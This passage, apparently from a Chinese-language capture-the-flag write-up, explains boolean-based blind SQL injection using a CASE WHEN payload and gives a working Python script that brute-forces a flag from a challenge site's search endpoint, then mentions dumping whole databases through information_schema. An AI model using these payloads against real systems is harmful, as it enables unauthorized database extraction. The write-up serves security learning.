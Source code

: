 但其實仔細觀察會發現我們不需要 sleep，可以利用 case when 的回傳值做原本的 filter 功能，從結果中推測哪個條件成立，像這樣：

``` sql
(select case when (content like "c%") then 1 else 10 end from flag)
```

當條件（`content like 'c%'`）成立時，回傳值就是 1，反之則是 10，而如果是 1 的話，回傳的 JSON 就會有資料，10 的話則沒有，因此我們可以根據有或沒有，得知條件是否成立。

接著，我們就來寫一下這種最簡單做法的腳本。

``` python
# exploit-search.py
import requests
import datetime
import json

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = 'abcdefghijklmnopqrstuvwxyz}_'
result = 'cymetrics{'
while True:
  if char_index >= len(char_set):
    print("end")
    break

  char = char_set[char_index]
  payload = f'(select case when (content like "{result}{char}%") then 1 else 10 end from flag)'
  response = requests.get(f'{host}/search.php?tag={payload}')
  print("trying", char)
  if response.ok:
    data = json.loads(response.text)
    if len(data) > 0:
      result += char
      print(result)
      char_index = 0
    else:
      char_index += 1

  else:
    print('error')
    print(response.text)
    break

```

簡單來說就是每個字元不斷去試，試到有為止，簡單暴力但有用，跑個三五分鐘大概就能跑出完整的結果，執行過程會像是這樣：

![](/img/sql-injection-in-action/p1.png)

如果像挑戰這樣，我們事先知道 table 名稱跟欄位名稱，頂多執行時間久一點而已，三五分鐘還在可以接受的範圍，但在實際案例中我們可能什麼都不知道，需要去打 information_schema 把各項資訊拿出來，才能把整個資料庫 dump 出來。

因此，我們需要更有效率的做法。
